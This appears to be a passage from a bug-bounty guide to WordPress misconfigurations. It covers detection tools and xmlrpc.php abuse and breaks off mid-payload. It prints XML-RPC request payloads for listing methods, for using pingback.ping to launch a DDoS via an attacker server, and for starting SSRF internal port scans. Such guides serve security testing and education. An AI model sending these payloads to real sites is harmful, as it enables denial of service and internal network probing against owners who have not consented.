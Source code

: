 # Wordpress Common Misconfiguration
Here I will try my best to mention all common security misconfigurations for Wordpress I saw before or officially referenced. I will be attaching all poc and reference as well

# Index
* Wordpress Detection
* General Scan Tool
* xmlrpc.php
* Directory listing
* CVE-2018-6389
* CVE-2021-24364
* WP Cornjob DOS
* WP User Enumeration

# Wordpress Detection
Well, if you are reading this you already know about technology detection tool and methods.
Still adding them below
* Wappalyzer
* WhatRuns
* BuildWith

# Geneal Scan Tool
* WpScan

# xmlrpc.php 
This is one of the common issue on wordpress. To get some bucks with this misconfiguration you must have to exploit it fully, and have to show the impact properly as well.

### Detection
* visit site.com/xmlrpc.php
* Get the error message about POST request only

### Exploit
* Intercept the request and change the method GET to POST
* List all Methods
    ```
    <methodCall>
    <methodName>system.listMethods</methodName>
    <params></params>
    </methodCall>
    ```
* Check the ```pingback.ping``` mentod is there or not
* Perform DDOS
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```
* Perform SSRF (Internal PORT scan only)
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>